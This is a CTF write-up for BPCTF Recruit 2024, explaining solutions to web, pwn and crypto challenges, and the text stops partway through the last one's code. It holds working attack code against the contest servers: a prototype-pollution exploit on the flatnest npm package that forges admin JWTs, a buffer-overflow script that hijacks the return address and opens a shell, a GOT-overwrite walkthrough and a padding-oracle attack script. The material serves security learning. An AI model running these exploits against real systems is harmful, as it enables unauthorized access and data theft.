


# HCMUS BPCTF - Recruit CTF 2024 Writeup

Here is my writeup for some of the problems i find interesting or challenging for this CTF contest which i solved.

Problems will be split by categories for better organization and navigation between problems.

## List Of Problems
- [**Web**](#web)
	- [BP88](#bp88)
	- [Overkill](#overkill)
- [**Pwn**](#pwn)
	- [bofintro](#bofintro)
	- [canaryintro](#canaryintro)
	- [pieintro](#pieintro)
	- [gotintro](#gotintro)
- [**Crypto**](#crypto)
	- [Baby Pad](#baby-pad)
	- [Super Computer v2](#super-computer-v2)
	- [Baby RSA 1](#baby-rsa-1)
	- [Baby RSA 2](#baby-rsa-2)

## Web
### BP88


BP88 has 3 levels but only one of them can be used to get flags for all 3 challenges.

It's a challenge based on a... uh nevermind it's just a RNG betting game.

The problem here is, seed for randomization is already exposed in source code (and in the game screen):

*./application/socket_handlers.py*
```py
def game_start(self):
        self.id_level1 = 13371337
        self.id_level2 = int(time.time())
        self.id_level3 = int(time.time())
		...

def get_level_result(self, level):
        if level == 'level1':
            random.seed(self.id_level1)
            dice1 = random.randint(1, 6)
            dice2 = random.randint(1, 6)
            dice3 = random.randint(1, 6)
            return {
                'dice1': dice1,
                'dice2': dice2,
                'dice3': dice3,
                'result': 'tai' if dice1 + dice2 + dice3 >= 11 else 'xiu'
            }
        elif level == 'level2':
            random.seed(self.id_level2)
            dice1 = random.randint(1, 6)
            dice2 = random.randint(1, 6)
            dice3 = random.randint(1, 6)
            return {
                'dice1': dice1,
                'dice2': dice2,
                'dice3': dice3,
                'result': 'tai' if dice1 + dice2 + dice3 >= 11 else 'xiu'
            }
        elif level == 'level3':
            random.seed(self.id_level3)
            dice1 = random.randint(1, 6)
            dice2 = random.randint(1, 6)
            dice3 = random.randint(1, 6)
            return {
                'dice1': dice1,
                'dice2': dice2,
                'dice3': dice3,
                'result': 'tai' if dice1 + dice2 + dice3 >= 11 else 'xiu'
            }
```

*Game screenshot* (Not an actual game)


To deal with the `#[REDACTED]` game ID problem in Level 3, you can keep the tab at lvl2 open even after finishing it, then duplicate and open a tab with lvl3. But don't play all-in since the error of ID difference between lvl2 and 3 is 1 (second).

**After finished 3 levels**


**Flags**
- **Level 1**: `BPCTF{r4f7g2h5j1k9l0p}`
- **Level 2**: `BPCTF{s3d6v8b4n7m5k1o}`
- **Level 3**: `BPCTF{q2w4e6r8t0y3u5i}`
### Overkill
This is by far one of my most favorite challenge in the Web category for this CTF, as it requires reading and understanding libraries' code and documentation, as well as finding vulnerabilities on deprecated libraries' versions.


*Notice the hint: "This is NOT a bruteforcing challenge"*

Looking at the source code, I notice that the server only has 3 endpoints:

- POST `/auth`
- GET `/user`
- GET `/flag`

*./src/app.controller.ts*
```js
import { Body, Controller, Get, Post, Req } from '@nestjs/common';
import { AppService } from './app.service';
import { Request } from 'express';

@Controller()
export class AppController {
  constructor(private readonly appService: AppService) {}

  @Post('/auth')
  async auth(@Body() logInDto: Record<string, string>): Promise<any> {
    return await this.appService.auth(logInDto.username, logInDto.password);
  }

  @Get('/user')
  async user(@Req() request: Request): Promise<any> {
    return await this.appService.userInfo(request.cookies['token']);
  }

  @Get('/flag')
  async flag(@Req() request: Request): Promise<any> {
    return await this.appService.flag(request.cookies['token']);
  }
}

```
*./src/app.services.ts*
```js
import { Injectable } from '@nestjs/common';
import { JwtService } from '@nestjs/jwt';
import { nest, flatten } from 'flatnest';
import { createHash } from 'crypto';

@Injectable()
export class AppService {
  constructor(private readonly jwtService: JwtService) {}

  async auth(username: string, password: string): Promise<any> {
    const hashed = createHash('sha256').update(password).digest('hex');
    const body = flatten({ username, hashed, role: 'user' });
    return { access_token: this.jwtService.sign(body) };
  }

  async userInfo(token: string): Promise<any> {
    const body = this.jwtService.verify(token);
    return { user: nest(body) };
  }

  async flag(token: string): Promise<any> {
    const user = this.jwtService.verify(token);
    if (user.role && user.role === 'admin') {
      return { flag: process.env.FLAG || 'BPCTF{lmaolmao}' };
    }
    return { err: 'Too bad' };
  }
}
```
In general:
- POST `/auth` post a payload with `username` and `password` fields, returning a [JSONWebToken (JWT)](https://jwt.io/) string from given fields.
- GET `/user` requires a cooking with given token then trying to decode (and verify) user from given token.
- GET `/flag`, our main target, does the same thing as `/user` except now it checks if user role is strictly `"admin"` first before handling us the flag.

Our approach here is to somehow authorize as "admin" role so the server could handle us the flag. I can try cracking the JWT given by the server to find the secret key but as this challenge is not preferrably for bruteforcing (from the hint), so let's try other approaches.

Looking at the app service file, I notice that it uses `flatten` and `nest` method from a NPM package called [`flatnest`](https://www.npmjs.com/package/flatnest).

There's a link to the [GitHub repository of the package](https://github.com/brycebaril/node-flatnest#readme), and out of curiosity i clicked the "Issues" tab:


Here is [link to the issue](https://github.com/brycebaril/node-flatnest/issues/4), it hints that older version (which is `1.0.0`) is vulnerable to [prototype pollution attack](https://portswigger.net/web-security/prototype-pollution).

Wait, so what's the `flatnest` version the server is using?

*./package.json:L28*
```js
"flatnest": "^1.0.0"
```

Perfect, so this is the chance I'm looking for.

So, *what exactly* needs to be polluted?

I've thought have 2 ways to exploit this vulnerability, either to force the server to use a secret that I could control, or just "simply" disable JWT verification on the server. And for this one, I chose the secret manipulation way.

Check config app of the file:
*./src/app.module.ts*
```js
import { Module } from '@nestjs/common';
import { AppController } from './app.controller';
import { AppService } from './app.service';
import { JwtModule } from '@nestjs/jwt';

@Module({
  imports: [
    JwtModule.register({
      global: true,
      secret: process.env.JWT_SECRET_KEY || 'fake_key',
      signOptions: { expiresIn: '30m' },
      verifyOptions: { maxAge: '30m' },
    }),
  ],
  controllers: [AppController],
  providers: [AppService],
})
export class AppModule {}
```

The secret is already defined, so prototype pollution to `secret` property is not possible.

BUT, `@nestjs/jwt` package (used by `nestjs`) acts as "middleware" from user app to the actual `jsonwebtoken` npm, so let's have a look on its source code to see if I can exploit anything:

Then i found this intersting code in the `getSecretKey()` method:

[*jwt/lib/jwt.service.ts:L178*](https://github.com/nestjs/jwt/blob/1133e904ce3dcb60bc1b6c74e385c73a6ae70e1f/lib/jwt.service.ts:L178)
```js
private overrideSecretFromOptions(secret: GetSecretKeyResult) {
    if (this.options.secretOrPrivateKey) {
      this.logger.warn(
        `"secretOrPrivateKey" has been deprecated, please use the new explicit "secret" or use "secretOrKeyProvider" or "privateKey"/"publicKey" exclusively.`
      );
      secret = this.options.secretOrPrivateKey;
    }

    return secret;
  }

  private getSecretKey(
    token: string | object | Buffer,
    options: JwtVerifyOptions | JwtSignOptions,
    key: 'publicKey' | 'privateKey',
    secretRequestType: JwtSecretRequestType
  ): GetSecretKeyResult | Promise<GetSecretKeyResult> {
    const secret = /* something */;

    return secret instanceof Promise
      ? secret.then((sec) => this.overrideSecretFromOptions(sec))
      : this.overrideSecretFromOptions(secret);
  }
```

As you can see here, after trying to do something with the secret, it will try to check if `<this>.options.secretOrPrivateKey` already exists and will try to overwrite current secret with it. This is the support for the [deprecated `secretOrPrivateKey` property](https://github.com/auth0/node-jsonwebtoken#jwtsignpayload-secretorprivatekey-options-callback), which in this case, ideal for our attack since the server doesn't define this property.

**Attack summary**
- Send object to `/auth` with payload to pollute `__proto__.secretOrPrivateKey` to our desired key
- Get `/user` (since for the injection to work it needs to call `flatten` on our object) using the token server gives before
- Get `/flag` with a token signed using our secret with data `{ role: "admin" }` and get the flag

**Demo script**
```js
const axios = require("axios");
const jwt = require("jsonwebtoken");

async function attack (url, secret = "sus") {
	axios.defaults.baseURL = url;
	axios.defaults.withCredentials = true;

	let x = await axios.post("/auth", {
		username: {
			"__proto__.secretOrPrivateKey": secret,
			// restart the instance and include the line below if server returns status 500
			// "__proto__.isValid": "[Circular (username.constructor)]"
		},
		password: ""
	});

	axios.defaults.headers.common['Cookie'] = "token=" + x.data.access_token + ";";

	try {
		await axios.get("/user");
	} catch (e) { console.log(e, "injection failed") }

	axios.defaults.headers.common['Cookie'] = "token=" + jwt.sign({ role: "admin" }, secret) + ";";

	try {
		let f = await axios.get("/flag");
		console.log("Flag:", f.data.flag)
	} catch (e) { console.log(e, "flag get failed") }
}

attack('http://blackpinker.rocks:30759');
```
**Result**


**Flag**

`BPCTF{1TS_nOt_A_Bu6_ltS_a_1e4tUrE_734210e6ce37}`

**P/S:**

I mentioned about 2 possible attacks for this problem, the attack that disables server-side JWT verification is possible and was actually my first way, but it's more complicated and harder to do than the first one.

Here's the demo payload for the 2nd approach if you want to learn how it works, have fun figuring out why it works :)
```js
{
	"sus": "no",
	"__proto__.secretOrKeyProvider": "[Circular (username.__lookupGetter__)]",
	"__proto__.algorithms": ["none"],
	"__proto__.algorithm": "none",
	"__proto__.alg": "none",
	// "__proto__.isValid": "[Circular (username.constructor)]",
}
```
## Pwn
**Note:** All 3 challenges (gofintro, canaryintro and pieintro) are using the same attack script but with different parameters, so on those 3 sections I will only mention the parameters and will post the code later in this section.


And win function for all challenges in this category are the same, is to give remote shell execution (as shown in decompiled binaries in IDA Freeware 8.2)

### bofintro


Same as its name, exploit using BOF (buffer overflow), the attack just need to fill the buffer with random characters and make sure that the last line will be overwritten with win function address.

**Parameters**
```py
calculateWinAddress = False
customInput = ''
customAttackCommand = 'cat flag' #'\nls -l' to view files first if needed
```

**Flag:** `BPCTF{Noi_TInH_Y3U_b4t_DAU_9058485bb905}`
### canaryintro


Same with bofintro, but also need to preserve the canary stack while also ovewriting the correct win function address to the return address.

**Parameters**
```py
calculateWinAddress = False
customInput = ''
customAttackCommand = '\ncat flag'
# notice a newline at start of attack command since for this one it seems to skip the first newline
```

**Flag:** `BPCTF{Can4rY_9uaRD_your_st4ck_10cbf406248e}`

### pieintro


Well, no win function address, but still, calculating it is possible.

First, go to decompiled binary and look for win function's address + `main()` function addresses:


Then just need to calculate win address by this formula:
```
WinAddress = ReturnAddress - DecompiledMainAddress + DecompiledWinFuncAddress
```

**Parameters**
```py
calculateWinAddress = True
winFuncOffset = 0x1229
mainFuncOffset = 0x13f3

customAttackCommand = '\ncat flag'
```

**Flag:** `BPCTF{jUsT_le4K_7He_BAse_f6977476f5c4}`

### Attack script for 3 problems above
```py
import socket, re, textwrap
def get_line(createdSocket):
    inputByte = b''
    readNewLine = False
    while True:
        userInputByte = createdSocket.recv(1)
        # print(userInputByte)
        if userInputByte == b'\n' or not userInputByte:
            readNewLine = userInputByte == b'\n'
            break
        inputByte = inputByte + userInputByte

    if len(inputByte) == 0 and not readNewLine:
        return None
    return inputByte.decode()

def send_data(createdSocket, data):
    createdSocket.send(data)

def send_text(createdSocket, data):
    return send_data(createdSocket, data.encode())

def send_line(createdSocket, data):
    return send_text(createdSocket, data + "\n")

def createStackLineStr(hex, stackSize, sep = ''):
    hex = hex[2:]
    if len(hex) % 2 != 0:
        hex = "0" + hex
    x = list(reversed(textwrap.wrap(hex, 2)))

    while len(x) < stackSize:
        x.append("00")

    return sep.join(x)

def createStackHex(hex, stackSize):
    return bytes.fromhex(createStackLineStr(hex, stackSize, ' '))

def createDummyStackHex (count, byte = 65):
    return bytes([byte] * count)

# attack parameters
calculateWinAddress = True # if win function address is not yet explicitly set
winFuncOffset = 0x1229 # offset from base address of win func (if to auto-calc win func address)
mainFuncOffset = 0x13f3 # offset from base address of main func (if to auto-calc win func address)

customInput = '' # custom input to give (will be later parsed to append bof values)
customAttackCommand = '\ncat flag' # attack script to send after shell takeover

# debug part
donotSubmit = False # don't submit any input

def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    print("Listening on port " + str(port))
    winAddress = None
    lastLine = False
    sent = False
    attackInput = bytes([])
    customInputEntered = False
    stacks = []
    try:
        while True:
            line = get_line(s)
            if line == None:
                return
            print(line)
            if sent:
                continue
            data = re.findall('0x[a-f0-9]+', line)
            if len(data) > 0:
                if len(data) > 1:
                    stacks.append(data)
                
                if (not calculateWinAddress) and winAddress == None:
                    winAddress = data[0]
                else:
                    if "Return address" in line:
                        lastLine = True

                        if calculateWinAddress:
                            baseAddress = int(stacks[-1][2], 0) - mainFuncOffset
                            winAddress = hex(baseAddress + winFuncOffset)
                            print("Auto-calculated Win Address:", winAddress)

                        attackInput += createStackHex(winAddress, 8)
                    else:
                        attackInput += createStackHex(data[2], 8)
            else:
                if lastLine:
                    sent = True

                    if donotSubmit:
                        continue

                    if not customInputEntered:
                        attackInput = bytes(customInput, "ascii") + attackInput[len(customInput):]
                        customInputEntered = True

                    print("String to input: " , attackInput)

                    send_data(s, attackInput)

                    if customAttackCommand:
                        print("Sending: ", customAttackCommand)
                        send_line(s, customAttackCommand)
    except socket.timeout:
        return

listen("blackpinker.rocks", 30398)
```

### gotintro


Well, no more buffer spamming so no script needed for this.

As its name, [Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table) will be used for this problem.


For this, first need to find GOT address of the `exit()` function since the main code calls it, and replace it with address of our win function address (also found in decompiled binary - IDA best friend XD)


--> `exit()` address: `0x404050`


--> `win()` address: `0x401216`

Then enter those 2 values and the `cat flag`:


**Flag:** `BPCTF{90t_IS_wri748lE_So_iT_CaN_be_reSOlv3d_IAT3r_34134b56aaef}`

## Crypto

### Baby Pad



As the hint suggested, [Padding Oracle attack](https://en.wikipedia.org/wiki/Padding_oracle_attack) will be needed for this challenge.

Server code:
```py
from Crypto.Cipher import AES 
import os 

with open('./FLAG.txt', 'rb') as f:
    flag = f.readline()

def pad(message):
    l = -len(message) % 16 
    if l == 0: 
        l = 16 
    return message + bytes([l]) * l 

def check_pad(message):
    l = message[-1]
    if not (l >= 1 and l <= 16):
        return False
    return message[-l:] == bytes([l] * l)

key = os.urandom(16)
iv = os.urandom(16)

def encrypt(message, iv):
    cipher = AES.new(key = key, iv = iv, mode = AES.MODE_CBC)
    return cipher.encrypt(message)

def decrypt(message, iv):
    cipher = AES.new(key = key, iv = iv, mode = AES.MODE_CBC)
    return cipher.decrypt(message)

ct = iv + encrypt(pad(flag), iv)

print(f"enc = {ct.hex()}")

while True: 

    print('1. Send me a message!')
    print('2. 1 is your only choice actually')

    choice = input("Your choice: ") 

    if choice == '1':
        ciphertext = bytes.fromhex(input())
        iv = bytes.fromhex(input())
        message = decrypt(ciphertext, iv)
        if not check_pad(message):
            print("Can't read that")
        else:
            print("Message received!")
    else:
        print("Good bye")
        exit()    
```

So this program will give us first the [iv + ciphertext] hex string, then ask to provide a valid IV and cipher text to check if padding is correct

The code looks pretty fine, except the `check_pad` function:
```py
def check_pad(message):
    l = message[-1]
    if not (l >= 1 and l <= 16):
        return False
    return message[-l:] == bytes([l] * l)
```
It only checks whether the last `t` characters (where `t` is the charcode of the last character) of the decrypted ciphertext equals to a string of `t` characters which charcode `t`. It doesn't verify if the pad length is still the same as original plaintext at all.

--> This is where padding oracle attack will be used

**How to perform the attack**


*How AES CBC Decryption works (for reference)*

First, we need to know the length of actual pad (to reduce number of guesses), by replacing a random bit at position -16 - i (where 1 <= i <= 16, decreasing) until server returns the correct pad message.

(For this challenge flag padding length is 13)

Then we initialize the first `t` (13) members of the correct hash table (representing the cipher block after passing through a key-only decryptor) by `xor`ing t with ciphertext value at position `-t - 16`

Then we repeat these steps
- `xor` the padding value `t` (we start with 14) with the last `t` members of the hash table to create a "semmingly correct" array, then replace it with the values starting from from the 2nd last block of cipher, or just the iv itself if cipher length is less than 16.
- On the character right before the modified segment, test with any value from `0x0` to `0xff` until server receives correct padding
- If a padding is correct:
	+ get the correct hashed bit in hash table = `guess ^ pad`
	+ assign it to hash table as position `-pad`
	+ plaintext = `correct_hash ^ original_cipher[-pad-16]`, or `correct_hash ^ iv[-pad]` if cipher length is less than 16
	+ increase pad value
	+ if pad value exceeds 16, we cut the last block from both original cipher and our hash table, then reset padding to 1

Until a flag is found.

Demo script
```py
import socket, re

def toHexArray (str):
	i = 0
	st = []
	while i < len(str):
		st.append(str[i:(i+2)])
		i = i + 2
		
	return st

def toBytes (str):
	return bytes.fromhex(join(toHexArray(str)))

def join(arr):
	return ' '.join(arr)

def toHexInputFromBytes (byte):
	return join(map(byteStr, byte))

def getcipher (line):
	ct = re.findall('[a-z0-9]+', line)[1]
	return (toBytes(ct[0:32]), toBytes(ct[32:]))

def get_line(createdSocket):
	inputByte = b''
	readNewLine = False
	while True:
		userInputByte = createdSocket.recv(1)
		# print(userInputByte)
		if userInputByte == b'\n' or not userInputByte:
			readNewLine = userInputByte == b'\n'
			break
		inputByte = inputByte + userInputByte

	if len(inputByte) == 0 and not readNewLine:
		return None
	return inputByte.decode()

def send_data(createdSocket, data):
	createdSocket.send(data)

def send_text(createdSocket, data):
	return send_data(createdSocket, data.encode())

def send_line(createdSocket, data):
	return send_text(createdSocket, data + "\n")

def byteStr(n):
	n = hex(n)[2:]

	if len(n) < 2:
		n = "0" + n

	return n

def scramble (cipherText, l):
	pos = - l - 17
	return cipherText[:pos] + bytes([cipherText[pos] ^ 1]) + cipherText[pos+1:]

def sendAnswer(s, cipher, iv, debugMessage):
	send_line(s, "1")
	print(debugMessage)
	send_line(s, toHexInputFromBytes(cipher))
	send_line(s, iv)

def paddingCipherTest(s, cipher, iv, chr):
	return sendAnswer(s, scramble(cipher, chr), iv, "Testing padding length {}".format(chr))

def modifyDecryptHashTable (table, index, newValue):
	table[index] = newValue

def createConfusingCipher (cipher, hashTable, l, byte):
	i = -1

	lastBlock = None
	if len(cipher) > 16:
		newCipher = bytearray(cipher[:-16])
		lastBlock = cipher[-16:]
	else:
		newCipher = bytearray(cipher)
		lastBlock = bytes([])
	
	while i >= -len(hashTable):
		if hashTable[i] == 0:
			break
		
		newCipher[i] = hashTable[i] ^ l

		i -= 1

	newCipher[i] = byte

	return bytes(newCipher) + lastBlock

def cutKnownParts (cipher, s, hTable, pText, l):
	slen = ((len(s) + l) // 16) * 16
	if slen == 0:
		print("Can't cut the cipher")
		return cipher, hTable, pText, l
	
	cipher = cipher[:-slen]
	hTable = hTable[:-slen]
	pText = s[-slen:]
	print("Cut cipher by", slen)
	return cipher, hTable, pText, 1


def oraclePaddingTest(s, cipher, iv, hashTable, l, guess):
	if len(cipher) <= 16:
		# attack IV
		iv = createConfusingCipher(iv, hashTable, l, guess)
	else:
		cipher = createConfusingCipher(cipher, hashTable, l, guess)
		
	return sendAnswer(s, cipher, toHexInputFromBytes(iv), "Testing padding guess {}".format(hex(guess)))

def listen(ip,port):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip, port))
	print("Listening on port " + str(port))
	iv = None
	ivBytes = None
	cipher = None
	plaintext = ""
	start = 1
	flagPadding = None
	flagLen = None
	padStart = None
	guess = 0
	hashTable = None
	knownPart = ''

	def setflagPadding (n):
		nonlocal flagPadding, flagLen, padStart, hashTable, cipher, plaintext
		flagPadding = n + 1
		flagLen = len(cipher) - n
		padStart = flagLen - 1
		for i in range(0, n):
			p = -i - 1
			modifyDecryptHashTable(hashTable, p, cipher[p - 16] ^ n)
		
		print("Flag padding is {}. Flag length {}".format(n, flagLen))

		cipher, hashTable, plaintext, flagPadding = cutKnownParts(cipher, knownPart, hashTable, plaintext, flagPadding)

	def finishTesting (accepted):
		nonlocal guess, plaintext, padStart, cipher, flagPadding, hashTable, ivBytes
		if guess >= 255 or accepted:
			if accepted:
				correctHashedBit = guess ^ flagPadding
				p = -flagPadding
				modifyDecryptHashTable(hashTable, p, correctHashedBit)
				char = None
				if len(cipher) <= 16:
					char = chr(correctHashedBit ^ ivBytes[p])
				else:
					char = chr(correctHashedBit ^ cipher[p - 16])
				plaintext = char + plaintext
				print("New character revealed '{}'. Current string is: {}".format(char, plaintext))
				flagPadding += 1
				if flagPadding > 16:
					# cut the last discovered block data
					cipher = cipher[:-16]
					hashTable = hashTable[:-16]
					flagPadding -= 16
					if len(hashTable) > 16:
						print("Last discovered block data has been truncated.")
					elif len(hashTable) > 0:
						print("All cipher blocks exhausted. Switched to IV.")
					else:
						print("Finished, flag is {}".format(plaintext))
						exit()
			else:
				print("Wait, something's wrong")
				print("Current string:", plaintext)
				exit()
			
			guess = 0
		else:
			guess += 1

		return False

	try:
		while True:
			line = get_line(s)
			if line == None:
				break
			# print(line)
			if iv == None:
				if "enc" in line:
					ivBytes, cipher = getcipher(line)
					hashTable = bytearray([0] * (len(cipher)))
					iv = toHexInputFromBytes(ivBytes)
					print("Obtained IV:", iv)
					print("Obtained Ciphertext:")
					print(toHexInputFromBytes(cipher))
					print("Len:", len(cipher))
					paddingCipherTest(s, cipher, iv, start)
				else:
					oraclePaddingTest(s, cipher, ivBytes, hashTable, flagPadding, guess)
			elif "Can't read that" in line:
				print("---> Failed")
				if flagPadding == None:
					start += 1
					if start >= 16:
						setflagPadding(16)
						oraclePaddingTest(s, cipher, ivBytes, hashTable, flagPadding, guess)
					else:
						paddingCipherTest(s, cipher, iv, start)
				elif not finishTesting(False):
					oraclePaddingTest(s, cipher, ivBytes, hashTable, flagPadding, guess)
			elif "Message received" in line:
				if flagPadding == None:
					setflagPadding(start)
					oraclePaddingTest(s, cipher, ivBytes, hashTable, flagPadding, guess)
				elif not finishTesting(True):
					oraclePaddingTest(s, cipher, ivBytes, hashTable, flagPadding, guess)
	except socket.timeout:
		return

listen("blackpinker.rocks", 30828)
```

**Result:**


**Flag:** `BPCTF{Just_a_simple_padding_oracle_attack_to_warm_up_37ead3222a93}`

### Super Computer v2

```py
from Crypto.Cipher import AES 
import random 

p = 105063592580446545974028951012743983897531876308535061339451568776273476140417
a = [83976481011811924301399130599504493293806898813567214331578547737846462043958, 49020426275786164529115108197272670769137595551571093637487791519433419519672, 24128105217328007401966909205085981217503713864081435807557452995781759742691, 54164402277699203441372828355514660347224703731247371001251599709472819892728, 5692038086237571692337343150891799220298365811757620367764289696380335050730, 9194117858273293290441837426276641586104842710061165598417982956745859622444, 27514892046750325649899981908633136074585793442699873185550644927834059630396, 66943725126331355485802310409645040036783514684318190205044041417883671830813, 36611954202140140239054776427180396851470554264500586218901125625358436893646, 93863495610885066386571402764570126016623604962463646403287688220849161122613]
b = [97461761096716147515500249810325859398244538389518130625167636466504806053237, 16186849429230042905493135221645960782811658483413984147534270789857649397900, 71342178650803093723481761619050183147490358888778566439516835390010233583079, 42978771428288111481549054267767962257445180314707234054048040896605726288851, 29120967694716870074542540604659996320145561630287811543954439503459626728291, 42698044025699644061005796009375197205179997240105171525488864698040253468486, 7809495582561305433394495659190738835412543684981410733357553129731203148539, 32385280315917393807024145684356627341683296786146343663491116566930261796667, 13004050673282999217589086204520195844228711320714522230534397332477244173876, 71584418374288378249025460600779108813126354610745231566224182660591294310622]
y = b

# This challenge is free flag! If you have super computer v2 :) 
n = 2 ** 2976579765

for i in range(n):
    x = sum(aa * yy for aa, yy in zip(a, y)) % p
    y = [x] + y[:0:-1]

random.seed(x)

k = random.randbytes(16)

iv = b"S\x0f\xac'\xd0\x18\xfb\xe3\x92\xfdoc\x93\x7fJ\xfc"
ct = b"9\x18~C<3\xba\x04\xfb\x04t\x94\x7f\x86t\xb7\x9b\x9b\xc0N8\x0c\x8er]\x14\xfd\x033\xac;PVa\xd0m\xfdH\xf4pI\xf7s\xd5\xc2\x03\t\x9a\x1d\x96<?k\x16\xc0GVp\xcdj#\xde\xe8\x991\xb7k\xc7\xe2^\xd5h\xa7\xf8\x07\x02\xf9\xcee\xbej \x86y\xf6\xf3T\x8c8\x85\x11Ps\xb1E\xe5WK\xb3\xcbE}\xbb\xc7\x10\xea\xb92FJ\xf6\xde&I\x99\xd8\xa9\xae\x94\x0675\xcelc\x1a\xe4\x9c"

cipher = AES.new(key = k, iv = iv, mode = AES.MODE_CBC)

print(cipher.decrypt(ct))
```

Just run the script and get flag except... it's a `2^2976579765` (very very large number) loop :(

So I tried to get a general formula for this problem:

I noticed that on each iteration, there're only 2 possible additions for the rest of array, while the first element of both arrays are not affected in the sum calculation

- On odd runs: `x = a[1:] (*) b[1:]`
- On even runs: `y = a[1:] (*) reverse(b[1:])`

And steps on each calculation

- Odd iteraion: `sum(odd) = t * sum(even) + x`
- Even iteration: `sum(even) = t * sum(odd) + y`
- Initialization: `sum(0) = t * e + y`

Where `t = a[0]` and `e = b[0]`

Then I concluded an general formula for even iterations (because `n` on our problem is even)
```
sum = t^n * e + (tx + y)(1 + t^2 + ... + t^(n-2))
```

Which further I finalized into
```
sum = t^n * e + (tx + y) (t^n - 1) / (t^2 - 1)
```
(The script may have better explanation since I drafted a lot there, so make sure to check it)

to counter the `t^n` problem, i used a modified version of [RTL Binary Modular Exponentiation](https://en.wikipedia.org/wiki/Modular_exponentiation#Right-to-left_binary_method), which decreases number of iterations from `2^2976579765` to ... `2976579765`

And of course to deal with the division i will just need to multiply with modular inverse of that number (Number Theory classes moment).

After everything have been setup, i run the code and wait for like 30 minutes, and here's the result:


**Code**
```py
from Crypto.Cipher import AES
import random 

p = 105063592580446545974028951012743983897531876308535061339451568776273476140417
a = [83976481011811924301399130599504493293806898813567214331578547737846462043958, 49020426275786164529115108197272670769137595551571093637487791519433419519672, 24128105217328007401966909205085981217503713864081435807557452995781759742691, 54164402277699203441372828355514660347224703731247371001251599709472819892728, 5692038086237571692337343150891799220298365811757620367764289696380335050730, 9194117858273293290441837426276641586104842710061165598417982956745859622444, 27514892046750325649899981908633136074585793442699873185550644927834059630396, 66943725126331355485802310409645040036783514684318190205044041417883671830813, 36611954202140140239054776427180396851470554264500586218901125625358436893646, 93863495610885066386571402764570126016623604962463646403287688220849161122613]
b = [97461761096716147515500249810325859398244538389518130625167636466504806053237, 16186849429230042905493135221645960782811658483413984147534270789857649397900, 71342178650803093723481761619050183147490358888778566439516835390010233583079, 42978771428288111481549054267767962257445180314707234054048040896605726288851, 29120967694716870074542540604659996320145561630287811543954439503459626728291, 42698044025699644061005796009375197205179997240105171525488864698040253468486, 7809495582561305433394495659190738835412543684981410733357553129731203148539, 32385280315917393807024145684356627341683296786146343663491116566930261796667, 13004050673282999217589086204520195844228711320714522230534397332477244173876, 71584418374288378249025460600779108813126354610745231566224182660591294310622]
y = b

untouchedA = a[1:]
untouchedB = b[1:]
untouchedReversedB = b[:0:-1]

series1Sum = sum(i * j for i, j in zip(untouchedA, untouchedB))
series2Sum = sum(i * j for i, j in zip(untouchedA, untouchedReversedB))

'''
sum (odd) = t * sum(even) + x
sum (even) = t * sum(odd) + y
sum (0) = e
'''

'''
Formula for even iterations
sum = t^n * e + (tx + y)(1 + t^2 + ... + t^(n - 2))

Where:
- n = number of iterations
- e = b[0]
- t = a[0]
- x = series1Sum
- y = series2Sum
'''

t = a[0]
x = series1Sum
y = series2Sum
e = b[0]

'''
g = 1 + t^2 + ... + t^(n-2)

h = t^2

g = 1 + h + h^2 + ... + h^(n/2 - 1)

g = (h^(n/2) - 1) / (h - 1)
g = (t^n - 1) / (t^2 - 1)

=> sum = t^n * e + (tx + y)(t^n - 1)/(t^2 - 1)
let:
- g = (tx + y)
- h = (t^2 - 1)
=> sum = t^n * e + (t^n - 1) * g / h
'''

'''
Given t = A / B always yields integer
Calculate A / B mod n
Given GCD(A,B,n) = 1
--> Inverse modulo?
(A * B^-1) mod n = (A mod n) * B^-1 mod n
'''

g = (t * x + y)
h = (t ** 2 - 1)

# n = 2^k1
k1 = 2976579765

def modular_pow_modified(base, exponent, modulus): # base^(2^exponent) mod modulus
	'''
	Modified after efficient RTL binary method for modular exponentation
	https://en.wikipedia.org/wiki/Modular_exponentiation#Right-to-left_binary_method
	'''
	if modulus == 1:
		return 0
	
	base = base % modulus
	while exponent > 0:
		exponent -= 1
		base = (base * base) % modulus
	
	return base

t_pow_n = modular_pow_modified(t, k1, p)
# print(t_pow_n)

